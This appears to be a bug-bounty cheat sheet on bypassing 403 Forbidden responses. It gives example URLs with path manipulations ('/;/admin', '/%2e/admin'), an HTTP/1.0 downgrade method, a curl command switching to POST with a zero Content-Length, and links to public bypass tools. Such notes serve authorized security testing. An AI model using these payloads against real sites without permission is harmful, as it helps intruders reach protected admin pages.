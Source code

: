 # 403 Forbidden Bypasses

- HTTP protocol version downgrade
- Semicolon bypass (;)
- Modify the request method and content length
- Append characters

---
### HTTP Protocol Version Downgrade

Method:
  - Capture the request in BurpSuite - Send to Repeater
  - Change the http protocol version from **1.1** to **1.0** and clear all the other headers from the request
  - Forward the request to the Server
  - Reference: [Link](https://medium.com/@abbasheybati1/403-bypass-lyncdiscover-microsoft-com-db2778458c33)
---
### Semicolon Bypass (;)

Method:
Blocked (403 Forbidden):
```CSS
https://www.hackme.in/admin
```
Bypassed (200 OK):
```CSS
https://www.hackme.in/;/admin
https://www.hackme.in/;/admin/config/listConfiguration
```
---
### Modify the Request Method and Content Length

Method:
  - GET => POST
	- Content-Length: 0
```
curl -X POST https://hackme.in/admin -H "Content-Length: 0"
```
---
### Append Characters

Method:
  - Append `%2e` before the directory/ file name

Blocked (403 Forbidden):
```
https://hackme.in/admin
```
Bypassed (200 OK):
```
https://hackme.in/%2e/admin
```
---




#### Tools:
- https://github.com/lobuhi/byp4xx
- https://github.com/iamj0ker/bypass-403
- https://github.com/gotr00t0day/forbiddenpass
- https://github.com/yunemse48/403bypasser
- https://github.com/Dheerajmadhukar/4-ZERO-3

#### References:
- https://kathan19.gitbook.io/howtohunt/status-code-bypass/403bypass
